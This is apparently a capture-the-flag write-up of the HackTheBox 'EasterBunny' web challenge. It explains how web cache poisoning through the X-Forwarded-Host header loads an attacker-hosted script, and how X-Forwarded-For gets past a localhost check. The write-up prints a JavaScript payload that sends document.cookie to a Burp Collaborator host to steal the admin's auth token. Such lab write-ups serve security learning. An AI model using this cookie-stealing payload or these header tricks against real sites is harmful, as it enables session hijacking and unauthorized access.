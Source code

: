 ```yaml
---
layout: single
title:  EasterBunny
date:  2022-08-28
desc: "It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching!"
---
```


It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching! <br>

<h4 align="center">
<img src="https://user-images.githubusercontent.com/45040001/187103435-e7a41ec1-67d8-491a-9572-a340b96f265e.png">
</h4>


The EasterBunny is a easy challenge from hackthebox where you can learn a lot from it. Lets explain little bit the steps but with words, the first step is to identify web cache poisoning vulnerability and follow [web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning) methodology.
<br>
<br>
Let's start where the flag is stored.. The flag is stored at the 3rd letter which if you are not an admin you can't see and you will get an error message. Our steps is to be authenticated like a admin and get the flag.

## WCP Methodology
![image](https://user-images.githubusercontent.com/45040001/187235119-7f8f04e9-1a0e-4899-b623-109aae0d0ceb.png)

### Detect unkeyed input
We can detect & inject into cache a random string just using `X-Forwarded-Host` HTTP Header. Using this header we can perform a xss attack to steal some cookies from the user in our situation from `bot.js`.<br>
![detect_unkeyd_input](https://user-images.githubusercontent.com/45040001/187235463-af6684d1-b75f-422d-b08f-7515db78026a.png)
<br>
So we can see our unkeyed input injects 3 attributes and they are:
- /static/main.css
- `<base href="unkeyed input:port/static" />`
- /static/viewletter.js

When you see a javascript file like the `viewletter.js` immediately you think how you can perform a xss attack right?

![unkeyd_input](https://user-images.githubusercontent.com/45040001/187235510-121c99c8-0160-463d-b4e2-c95af06b362a.png)

![viewletter_javascript](https://user-images.githubusercontent.com/45040001/187235528-15b5cbc5-faea-4430-bef9-f7891538de51.png)

## Get prepared for the attack
For exploitation part first of all we need a HTTP server(free solution ngrok) and create a directory tree like that: <br>
![187313837-93762db5-ebfc-4c99-9f69-132ce594b72c](https://user-images.githubusercontent.com/45040001/188494846-ad18b497-7d7c-4180-b1be-06d2092d45ea.png)
<br>
And the most important our malicious `viewletter.js` hosted in our http server where with this script we can steal the auth token and get the flag.
```javascript
//viewletter.js
fetch('http://4w1j76r5ydqthsa2yt357tr45vbmzb.burpcollaborator.net/', {
		    method: 'POST',
		    body: document.cookie
		    });
```
The challenge source code has a file called `authorisation.js` where somebody can see how `admin`  authorization works.<br>
So if someone wants to be authenticated like a admin he must be from localhost and he must know the `authSecret` which is a random value.
```javascript
const authSecret = require('crypto').randomBytes(69).toString('hex');

const isAdmin = (req, res) => {
  return req.ip === '127.0.0.1' && req.cookies['auth'] === authSecret;
};

module.exports = {
  authSecret,
  isAdmin,
};
```
So far so good.. But how will get the `authSecret` from admin? we should steal the cookies from him(or from `bot.js`)
```javascript
//part from bot.js
await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });
```

Now lets take a look how the bot visiting works. At source code of `routes.js` in the `/submit` route we can see the bot visit the last inserted letter but with a little bit different host, pay attention at `127.0.0.1`
```javascript
//part of routes.js
botVisiting = true;
await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
botVisiting = false;
```

## Attack

So we retreive a lot of informations and they are:
- we find unkeyed inputs for web cache poisoning attack
- we have to poison the last inserted id(last submited letter)
- we have to steal the `authtoken`
- and grab the flag

First step is to setup our HTTP server with all files & directories included
![tt](https://user-images.githubusercontent.com/45040001/188495101-735dd790-a852-48a2-ad49-ec277bba5999.png)

<br>

Right now we are ready to start the whole attack step by step. Fist of all we need to know how many letters are saved in database to inject the last letter `/letters?id=${inserted.lastID}` to find how many letters are seved we can send just a GET requests at `/message/3` and you will get a response with the message of the letter and the counters of the letters. 

So at my situation the last letter is 16 so i have to inject the 17 letter. <br>
Inject values is:
- GET /letters?id=17
- HOST: 127.0.0.1 | because of this piece of code `await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);`
- X-Forwarded-Host: your-ngrok-ip.com

![web_poisoning](https://user-images.githubusercontent.com/45040001/187318535-9fc0269b-fac7-46a6-bbf9-3f048cedcd05.png)

Send the injection requests and instantly we have to submit a new letter and this letter will be injected .
![submit_new_letter](https://user-images.githubusercontent.com/45040001/187318584-250a390e-745c-4d8f-b3e1-7f5560ca3c8c.png)


after a few seconds we will successfully get the admin secret(authtoken) in our burpcollaborator.
![auth_cookie](https://user-images.githubusercontent.com/45040001/187318627-f3192d7b-3d86-4010-8e6e-0c298ca62a65.png)

The next step is to bypass localhost restriction and i do that with `X-Fowarded-For` HTTP Header as i show below.

![get_flag_1](https://user-images.githubusercontent.com/45040001/187318708-ded902f8-0e25-4926-897e-8b185b125da4.png)

[ip bypass headers](https://gist.githubusercontent.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1/raw/339dad3040fd1a967588edf341eb72b033a9d9fe/gistfile1.txt) <br>

![get_flag_2](https://user-images.githubusercontent.com/45040001/187318715-5c3adc65-87fd-4c8f-ba4f-b9ee3676de8b.png)

![correct_payload](https://user-images.githubusercontent.com/45040001/187318812-fb0b7c39-bb01-4797-8f2d-690a260b33d3.png)

grab the flag. <br>
![final_flag](https://user-images.githubusercontent.com/45040001/187318733-85d968a5-fe2a-43b5-b121-949d8528c19f.png)



